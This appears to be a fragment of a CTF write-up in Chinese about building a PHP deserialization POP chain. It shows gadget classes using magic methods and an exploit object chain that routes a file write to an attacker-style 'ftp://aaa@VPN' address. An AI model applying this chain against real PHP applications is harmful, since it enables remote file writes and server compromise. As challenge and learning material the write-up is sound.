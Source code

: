 写pop链

```php

<?php
class Check {
public static $str1 = false;
public static $str2 = false;
}

class Esle {
public function __wakeup()
{
Check::$str1 = true;
}
}



class Bunny {

public function __toString()
{
if (Check::$str2) {
//echo "tostring";
if(!$this->data){
$this->data = $_REQUEST['data'];
}
//file_put_contents($this->filename, $this->data);
} else {
throw new Error("Error");
}
}
}

class Welcome {
public function __invoke()
{
Check::$str2 = true;
return "Welcome" . $this->username;
}
}

class Bypass {

public function __destruct()
{
if (Check::$str1) {
($this->str4)();
} else {
throw new Error("Error");
}
}
}

$a = new Esle(); //str1 = true
$a->tmp = new Bypass();
$a->tmp->str4 = new Welcome(); //str2 = true;
$a->tmp->str4->username = new Bunny();
$a->tmp->str4->username->filename = 'ftp://aaa@VPN:123/123';
```